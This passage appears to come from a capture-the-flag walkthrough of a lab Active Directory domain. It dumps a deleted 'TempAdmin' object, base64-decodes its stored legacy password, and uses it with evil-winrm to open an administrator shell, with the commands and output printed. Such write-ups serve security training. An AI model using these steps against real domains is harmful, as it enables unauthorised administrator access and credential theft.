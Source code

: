 ```bash
Description                     :
DisplayName                     : TempAdmin
DistinguishedName               : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
dSCorePropagationData           : {1/27/2020 3:23:08 AM, 1/1/1601 12:00:00 AM}
givenName                       : TempAdmin
instanceType                    : 4
isDeleted                       : True
LastKnownParent                 : OU=Users,OU=UK,DC=cascade,DC=local
lastLogoff                      : 0
lastLogon                       : 0
logonCount                      : 0
Modified                        : 1/27/2020 3:24:34 AM
modifyTimeStamp                 : 1/27/2020 3:24:34 AM
msDS-LastKnownRDN               : TempAdmin
Name                            : TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
nTSecurityDescriptor            : System.DirectoryServices.ActiveDirectorySecurity
ObjectCategory                  :
ObjectClass                     : user
ObjectGUID                      : f0cc344d-31e0-4866-bceb-a842791ca059
objectSid                       : S-1-5-21-3332504370-1206983947-1165150453-1136
primaryGroupID                  : 513
ProtectedFromAccidentalDeletion : False
pwdLastSet                      : 132245689883479503
sAMAccountName                  : TempAdmin
sDRightsEffective               : 0
userAccountControl              : 66048
userPrincipalName               : TempAdmin@cascade.local
uSNChanged                      : 237705
uSNCreated                      : 237695
whenChanged                     : 1/27/2020 3:24:34 AM
whenCreated                     : 1/27/2020 3:23:08 AM
```

Hello again `cascadeLegacyPwd`
```bash
cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz
```

Base64 decode and we get:
```bash
baCT3r1aN00dles
```

Yet again let's check them...
```bash
evil-winrm -i $target -u administrator -p baCT3r1aN00dles
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
cascade\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```
